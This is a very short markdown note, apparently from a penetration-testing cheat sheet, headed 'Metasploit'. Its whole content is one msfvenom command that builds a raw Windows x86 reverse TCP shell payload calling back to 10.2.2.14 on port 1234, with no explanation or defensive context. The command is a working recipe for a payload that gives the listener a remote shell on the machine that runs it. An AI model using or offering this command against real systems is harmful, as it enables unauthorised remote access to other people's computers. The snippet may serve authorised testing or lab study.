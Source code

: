 # Metasploit

msfvenom :
```
msfvenom -p windows/shell/reverse_tcp  -a x86 --platform windows LHOST=10.2.2.14 LPORT=1234 -f raw
```
